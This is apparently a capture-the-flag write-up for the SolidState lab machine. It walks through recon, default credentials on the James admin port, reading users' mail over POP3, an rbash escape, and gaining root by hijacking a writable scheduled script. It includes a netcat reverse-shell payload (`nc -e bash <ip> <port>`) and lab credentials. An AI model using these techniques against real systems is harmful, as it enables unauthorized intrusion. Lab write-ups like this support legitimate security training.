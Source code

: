 # Solidstate

## Machine Info

![SolidState](./Solidstate.assets/SolidState.png)

## Recon

- nmap

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.39 [10.10.14.39])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings:
|   GenericLines:
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94%I=7%D=12/15%Time=657B9854%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nP
SF:lease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPassw
SF:ord:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http, 25 smtp 110 pop3, 119 nntpd, 4555 rsip
- 80 whatweb

```
$ whatweb http://solidstate.htb/
http://solidstate.htb/ [200 OK] Apache[2.4.25], Country[RESERVED][ZZ], Email[webadmin@solid-state-security.com], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.51], JQuery, Script, Title[Home - Solid State Security]
```

- path, sudomain -> nothing [x]

![image-20231215165805880](./Solidstate.assets/image-20231215165805880.png)

## Foothold

### Apache James Server 2.3.2 RCE

- [40123-exploiting-apache-james-server-2.3.2.pdf (exploit-db.com)](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf)
- [Apache James Server 2.3.2 - Remote Command Execution - Linux remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/35513)

### 4555 Password Altering

![image-20231215165926233](./Solidstate.assets/image-20231215165926233.png)

![image-20231215165929657](./Solidstate.assets/image-20231215165929657.png)

- Users: `james`, `thomas`, `john`, `mailadmin`
- Pass: `qwe`

### 110 POP3 Enum

- james

![image-20231215170439630](./Solidstate.assets/image-20231215170439630.png)

- thomas

![image-20231215170444025](./Solidstate.assets/image-20231215170444025.png)

- john -> mindy's access cred is around

![image-20231215170450196](./Solidstate.assets/image-20231215170450196.png)

- mindy -> **mindy:P@55W0rd1!2@**

![image-20231215170455108](./Solidstate.assets/image-20231215170455108.png)

![image-20231215170552671](./Solidstate.assets/image-20231215170552671.png)

- mailadmin

![image-20231215170901444](./Solidstate.assets/image-20231215170901444.png)

## Privilege Escalation

### mindy's rbash escape

- method1: Apache James Server 2.3.2 RCE
  - run rce script: payload = `nc -e bash <ip> <port>`
  - ssh to login as mindy to trigger rshell
- method2: `ssh mindy@$IP -t "bash --noprofile"`

![image-20231215171835490](./Solidstate.assets/image-20231215171835490.png)

### mindy -> root

- script in /opt: /opt/tmp.py -> 777 -> clear /tmp -> very potentially is a sheduled task as root

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

- write in rshell into tmp.py -> get root shell

![image-20231215172045812](./Solidstate.assets/image-20231215172045812.png)

## Exploit Chain

4555 server default cred -> pop3 enum -> rbash -> escape -> sheduled task rshell as root -> root shell
